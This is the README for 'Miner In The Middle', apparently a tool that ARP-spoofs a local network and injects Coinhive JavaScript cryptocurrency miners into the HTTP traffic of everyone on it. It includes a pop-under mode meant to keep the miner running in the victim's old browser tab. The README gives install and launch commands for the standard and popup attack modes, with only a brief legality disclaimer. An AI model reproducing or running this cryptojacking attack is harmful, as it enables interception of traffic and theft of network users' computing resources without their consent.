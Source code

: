 
		
Miner In The Middle
Author - Anthony Russell
@DotNetRussell

Not for illegal use!
(unless you own the network or have permission from everyone on it, it's illegal)
	 
INTRO:

Miner in the Middle is a script that allows you to inject javascript miners into everyone on your local network. It does this by arp spoofing the network and waiting for HTTP traffic. Once it sees it, it injects a coinhive javascript miner into the traffic and returns it to the client. The standard mode does this on whatever page the person is browsing. The pop under mode opens their requested page in a new tab and leaves the miner in the old tab. This allows for persistence. 
	 
	 
TO USE:	 
	 
You will first need to make sure that you have `MitMf` and also `Twisted version 15.5.0`
To install dependencies run:
        `./miner_itm.sh --install`
	
   ----To launch a standard miner attack----
	
   The standard network attack arp spoofs the network, then injects a miner into http responses.
   To launch a standard miner injection attack run:
      ` ./miner_itm.sh <coinhive api key> <gateway ip> <interface name>`
	
	
   ----To launch a popup miner attack----
	
   A popup miner attack will attempt to inject a script into http responses. The script will wait for the user to click a button.
   When they do it will spawn a popup with their site in it and the origonal window will launch a miner. This is nice for persistence. 
	
   First run:
      ` ./miner_itm.sh --generate <coinhive api key>`
	
   and place payload.html into your web server root directory
	
   Second run:
    `   ./miner_itm.sh -p <gateway ip> <interface name> <web server ip>`
	
	

